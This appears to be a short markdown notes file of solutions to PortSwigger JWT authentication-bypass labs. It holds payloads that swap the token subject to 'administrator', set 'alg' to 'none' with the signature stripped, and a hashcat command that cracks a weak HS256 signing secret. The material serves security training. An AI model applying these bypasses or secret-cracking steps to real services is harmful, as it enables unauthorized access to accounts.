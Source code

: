 # JWT


### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```



```
step 1 - Brute-force the secret key

hashcat -a 0 -m 16500 eyJraWQiOiIzOWY3NjFjZS0yMjAyLTQ2NTQtYTQ1OS0xY2U4ZGQ2ZDg3N2UiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MDk2NzYzNiwic3ViIjoid2llbmVyIn0.WSkgfT0RVI3UG8tkeGtHwZotjxNXfCl9gIlqFaNjthM ./jwt.secrets.list  : secret1

ncode in base64 secret1 : c2VjcmV0MQ==

```